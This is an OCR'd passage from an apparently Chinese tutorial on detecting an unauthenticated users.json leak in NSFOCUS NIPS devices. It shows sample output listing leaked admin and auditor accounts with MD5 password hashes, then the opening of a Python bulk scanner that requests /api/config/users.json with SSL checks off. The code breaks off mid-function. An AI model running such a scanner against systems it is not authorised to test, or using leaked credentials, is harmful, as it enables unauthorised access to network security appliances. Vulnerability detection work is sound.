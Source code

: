 3.检测结果分析  
  
（1）vulnerable_systems.json：包含泄露的用户数据  
  
[  
  
  {  
  
    "url": "  
https://example-nsfocus-system.com",  
  
    "details": "用户: admin, 角色: 管理员; 用户: audit, 角色: 审计员",  
  
    "data": [  
  
      {  
  
        "name": "admin",  
  
        "password": "5f4dcc3b5aa765d61d8327deb882cf99",  // MD5哈希  
  
        "role": "管理员"  
  
      },  
  
      {  
  
        "name": "audit",  
  
        "password": "d8578edf8458ce06fbc5bb76a58c5ca4",  
  
        "role": "审计员"  
  
      }  
  
    ]  
  
  }  
  
]  
  
（2）nsfocus_vulnerability_report.csv：所有目标的检测结果  
  
（3）detection_log.txt：详细的检测日志  
  
将以下代码保存为：  
  
nsfocus_vuln_detector.py  

```
import requests
import json
import time
import csv
import socket
import urllib3
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry
from concurrent.futures import ThreadPoolExecutor, as_completed


# 禁用SSL警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def check_nsfocus_vulnerability(url):
    &#34;&#34;&#34;检测绿盟NIPS系统的users.json泄露漏洞&#34;&#34;&#34;
    # 构造目标URL
    target_url = url.rstrip('/') + '/api/config/users.json'


    # 准备请求参数
    session = requests.Session()
    retries = Retry(total=2, backoff_factor=0.5, status_forcelist=[500, 502, 503, 504])
    session.mount('https://', HTTPAdapter(max_retries=retries))
```